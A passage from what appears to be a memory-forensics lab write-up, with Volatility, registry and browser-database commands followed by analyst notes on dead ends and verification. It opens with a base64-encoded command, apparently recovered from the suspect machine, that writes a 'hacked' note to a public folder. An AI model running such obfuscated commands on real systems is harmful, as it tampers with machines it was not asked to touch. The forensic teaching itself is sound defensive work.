echo 'ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi' | base64 -d

# Files
vol -q -f recollection.bin windows.filescan > filescan.txt
vol -q -f recollection.bin -o dumped windows.dumpfiles --physaddr <offset>

# PE metadata
python3 -c "import pefile,datetime,sys; pe=pefile.PE(sys.argv[1]); \
print(pe.get_imphash()); \
print(datetime.datetime.fromtimestamp(pe.FILE_HEADER.TimeDateStamp, datetime.UTC))" <file>.dat

# Registry
vol -q -f recollection.bin windows.registry.hivelist
vol -q -f recollection.bin windows.registry.printkey --offset 0xf8a000024010 \
  --key "ControlSet001\\Control\\ComputerName\\ComputerName"
vol -q -f recollection.bin windows.registry.printkey --offset 0xf8a004a57010 \
  --key "SAM\\Domains\\Account\\Users\\Names"

# Network
vol -q -f recollection.bin windows.netscan

# Browser artifacts
sqlite3 "History.dat" "SELECT url, title FROM urls ORDER BY last_visit_time DESC;"
sqlite3 "Web Data.dat" ".tables"
sqlite3 "Web Data.dat" "SELECT * FROM autofill_profile_emails;"
```

### Annex C — Analyst notes

Where this investigation actually went, including what did not work.

**The console plugins were a dead end, and that turned out to be the most useful part of the case.** `windows.consoles` and `windows.cmdscan` both aborted with `NotImplementedError` on Windows 6.1. My first instinct was that my setup was wrong. It was not — those plugins only support Windows 10 and 11, because the `conhost.exe` structures they read are undocumented and were reverse-engineered per build. What made the difference was noticing that the plugin failed at symbol resolution, *after* printing its column headers. The scan had started; only the interpretation was missing. That reframed the problem from "the tool is broken" to "where does this data physically live", and from there `memmap --dump` plus `strings -e l` recovered the entire session. Four of the eighteen answers came out of that one buffer.

**Running `strings` without `-e l` would have found nothing.** The console buffer is UTF-16. The first time I extracted, `gstrings` was not on the PATH (Homebrew installs `binutils` keg-only), the redirect created four empty files, and the subsequent grep returned nothing. Without the `wc -l` sanity check I would have concluded the data was not there. Verifying that a step produced output before interpreting the next one is not optional on this kind of pipeline.

**The extracted binary does not hash to its own filename, and that confused me.** I expected the SHA-256 of the dumped file to match `b0ad7041…`, since the file is named after its hash. It does not. `dumpfiles` reconstructs from cached pages, zero-fills what was never read, and pads to page boundaries — the hash describes my extraction, not the sample. The imphash and PE header survived because the loader has to read those pages to start the process. I confirmed this by submitting the original hash to VirusTotal and comparing the Compilation Timestamp against the value I computed locally. They match.

**The account count was wrong on the first attempt.** `SAM\Domains\Account\Users\Names` lists four subkeys. `HomeGroupUser$` is a service account — the trailing `$` is the Windows convention — created by the HomeGroup feature, not a user account. Three is the correct answer, and the reason matters more than the number.

**The email needed verification, not just a match.** I had `mafia_code1337@gmail.com` from `autofill_profile_emails`, but the submission field showed a masked pattern and I was not sure it was the same address. Counting the mask segment by segment (5 characters, underscore, 8 characters, `@`, 5 characters, dot, ending in `m`) confirmed the fit before submitting. Checking a candidate against the constraint you already have is cheaper than a failed submission.

**Enumerate before filtering.** `Web Data` has 36 tables. I did not guess which one held the email — `.tables` first, then query. `autofill_profile_emails` is not a name I would have arrived at by guessing.

**What changed the conclusion.** Until the browser history was extracted, this read as an external intrusion, and I was writing it that way. The history reorders the whole case: searches for Wazuh, downloads from MalwareBazaar with the sample pages open, a visit to `base64encode.org` immediately before an encoded command appears in the console. That is not an intruder's trail — it is someone deliberately handling malware on a machine they were sitting at. The findings did not change; the explanation for them did. It is worth being willing to rewrite the summary when the last artifact contradicts the first draft.
